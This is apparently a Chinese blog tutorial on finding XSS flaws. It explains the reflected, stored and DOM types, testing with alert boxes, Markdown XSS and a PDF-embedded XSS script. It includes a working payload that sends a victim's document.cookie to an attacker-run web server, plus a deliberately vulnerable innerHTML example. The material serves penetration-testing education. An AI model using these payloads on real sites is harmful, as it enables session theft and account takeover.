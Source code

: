 # web漏洞挖掘指南 -XSS跨站脚本攻击


<!--more-->
![IP定位](https://tool.lu/netcard/)

# 

# web漏洞挖掘指南

## XSS跨站脚本攻击

### 一、漏洞原理

\1. 跨站脚本英文全称（Cross Site Scripting跨站脚本），为了不和css层叠样式表(英文全称：Cascading Style Sheets)混淆，因此将跨站脚本缩写为XSS。产生XSS漏洞根本原因其实是web应用未对用户的输入进行严格的过滤和转义，导致攻击者可从正常的输入功能注入脚本代码，我常将xss攻击理解为一种javascript注入，当带有xss恶意代码的页面被其他用户访问到时，js便会被执行，js脚本可以执行很多操作，比如：窃取用户cookie，读取用户键盘记录，截屏，恶意跳转等，甚至可以结合BEEF的hook.js钩子劫持用户浏览器。

### 二、XSS漏洞检测

\1. 公认XSS有三种类型：反射型、存储型、dom型。根据字面意思很好区分三者，反射型即服务器根据用户当前输入做出的响应，只能触发一次，这个过程就像一次反射。因此市面上大多self-xss都来自反射型xss，攻击者输入xss脚本，输出仅自己看到，仅xss到自己，常在查询、搜索等功能出现。
\2. 存储型xss即页面保存了攻击者输入的恶意代码，除非对应记录被删除，否则可以一直触发xss，常在留言、个人信息登记等功能出现。
\3. dom型xss比较独特，它涉及的两个层次不是服务器端和浏览器端，而是浏览器端的JavaScript层和HTML层。换种更好理解的说法也就是：从服务器脚本变成了客户端脚本，dom xss的payload不需要服务端解析响应，而是靠浏览器的dom解析，因此dom-xss的触发是抓不到请求包的。漏洞示例xss.html：

```html
    <html>
    <body>
            <div id="tr1"></div>
            <script>
                    document.getElementById("tr1").innerHTML = unescape(location.hash);
            </script>
    </body>
    </html>
```

![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741759-722253-untitled-10.png)
\4. xss漏洞检测用弹窗进行测试即可，常见的几种弹窗方法：alert()、confirm()、prompt()、console.log()。测试时，尽量结合各种xss类型的特征对功能点进行验证，除了大家常说的“有框即插(看见输入框就盲插xss payload)”，还需注意请求中的各种参数，是否可以原样输出或者以html代码的形式保存到了另一个页面。

### 三、XSS漏洞利用

\1. 上文提到过，xss的本质其实是js代码的注入，所以XSS漏洞的危害来源于js代码执行，最常见的就是盗取用户cookie，但是在实际场景中我们经常会遇到cookie设置httponly属性导致无法通过js脚本读取的情况，这时还可以读取用户键盘记录，截屏，恶意跳转等，甚至可以结合BEEF的hook.js钩子劫持用户浏览器。
\2. 以最简单的盗取cookie的payload为例，先用python搭建web服务充当xss平台：
![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741786-502257-untitled-11.png)
\3. 然后在存有xss漏洞的位置传入payload：<script>document.location=’[http://192.168.123.24?’+document.cookie;](http://ip:233/?’+document.cookie;)</script>
\4. 上述payload先用[document.cookie](http://ip:233/?’+document.cookie;)获取了用户cookie，然后利用document.location进行跳转，这样客户端就会携带[document.cookie](http://ip:233/?’+document.cookie;)的值访问xss平台，通过xss平台的web日志即可查看对应记录：
![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741841-53099-untitled.jpg)
\5. 市面上的xss平台其实已经编写出很多成熟的xss利用模板了，js代码操作不熟练的师傅可以直接套用xss平台的模板：
![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741857-24672-untitled-12.png)

### 四、Markdown XSS

\1. Markdown 是一种轻量级标记语言，它允许人们使用纯文本格式编写文档。通过简单的文本方式标记就能指定格式，轻轻松松完成文档的编辑。markdown语言从文本-指定格式的转换过程可以看作一系列的html转换，最终以html标签的形式存储在页面上，因此markdown编辑器也可能出现XSS漏洞。
\2. 插入超链接：
![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741901-716534-untitled-13.png)
![Untitled](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2021-09-27/1632741646-907279-image.png)
\4. 除了插入超链接，我们还可以参照常规的XSS payload进行尝试，比如<img>、<svg>等标签。参考案例：
http://www.52bug.cn/hkjs/3292.html
https://mp.weixin.qq.com/s/7Qa4o0sYfJei07K3mjL-GA

### 五、上传PDF导致的XSS

\1. 之前在论坛上看到过有师傅通过把xss代码加到pdf文件，然后通过正常的文件上传功能传至目标服务器中，利用浏览器自带的pdf阅读功能触发xss，这类漏洞还是会有部分厂商会确认的，参考文章：

https://www.t00ls.cc/thread-48480-1-1.html
https://www.t00ls.cc/articles-62790.html
pdf文件还是很少被禁止上传的，众测项目中可以尝试此类测试。
\2. 利用条件：1.有pdf文件上传点 2.保存好的pdf文件可以直接浏览器查看，而不是只能下载至本地。
\3. python脚本一键生成带有xss代码的pdf文件：

```python
    from PyPDF2 import PdfFileWriter
    file = PdfFileWriter()
    file.addJS('app.alert("XSS");')
    output = open('xss.pdf', 'wb')
    file.write(output)
```




{{<music url="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@source/Music/16.mp3" name="" artist="Mr·Yang" cover="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@img/avatar.png" fixed="true" volume="100" loop="all" autoplay="true" preload="auto" >}}

<img src="https://tool.lu/netcard/">

